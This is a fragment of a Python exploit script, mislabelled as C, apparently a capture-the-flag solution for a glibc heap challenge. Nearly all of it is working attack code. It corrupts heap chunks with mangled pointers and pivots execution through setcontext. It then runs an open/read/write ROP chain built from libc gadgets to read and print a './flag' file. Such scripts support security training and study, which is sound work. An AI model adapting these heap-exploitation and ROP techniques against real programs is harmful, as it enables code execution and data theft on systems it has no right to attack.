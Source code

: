 ```c
pay+=add(2,0x430,0)#1
pay += b'\x05'
ru("Pls input the opcode\n")
s(pay)
#--------------------------------------
rop = (0x0000000000169e90+libc_base)^(heap+0x2f50)
rop = ((rop>>(64-0x11))|(rop<<0x11))
pay = b''.ljust(0x410,b's')+p64(rop)+p64(heap+0x26d0)
edit(2,len(pay),pay)
gdb.attach(io)
payload = p64(0)+p64(heap+0x26d0)+p64(0)+p64(0)+p64(set_context)
payload = payload.ljust(0x70,b'\0')+p64(fh&0xfffffffffffff000)#rsi
payload = payload.ljust(0x68,b'\0')+p64(0)#rdi
payload = payload.ljust(0x88,b'\0')+p64(0x2000)#rdx
payload = payload.ljust(0xa0,b'\0')+p64((fh&0xfffffffffffff000)+8)#bytes(frame)
payload = payload.ljust(0xa0,b'\0')+p64(syscall)#rip
edit(1,len(payload),payload)#make rdx = chunk3
add(1,0x550)
ru(b'ERROR\n')
pop_rdx_r12_ret = 0x0000000000122431+libc_base
layout = [next(libc.search(asm('pop rdi\nret')))+libc_base
    ,fh&0xfffffffffffff000
    ,next(libc.search(asm('pop rsi\nret')))+libc_base
    ,0
    ,p64(pop_rdx_r12_ret)
    ,p64(0)
    ,p64(0)
    ,next(libc.search(asm('pop rax\nret')))+libc_base
    ,2
    ,syscall
    ,next(libc.search(asm('pop rdi\nret')))+libc_base
    ,3
    ,next(libc.search(asm('pop rsi\nret')))+libc_base
    ,(fh&0xfffffffffffff000)+0x200
    ,p64(pop_rdx_r12_ret)
    ,p64(0x30)
    ,p64(0)
    ,next(libc.search(asm('pop rax\nret')))+libc_base
    ,0
    ,syscall
    ,next(libc.search(asm('pop rdi\nret')))+libc_base
    ,1
    ,next(libc.search(asm('pop rsi\nret')))+libc_base
    ,(fh&0xfffffffffffff000)+0x200
    ,p64(pop_rdx_r12_ret)
    ,p64(0x30)
    ,p64(0)
    ,next(libc.search(asm('pop rax\nret')))+libc_base
    ,1
    ,syscall]
shellcode=b'./flag'.ljust(8,b'\x00')+flat(layout)
gdb.attach(proc.pidof(io)[0])
s(shellcode)
shell()
```
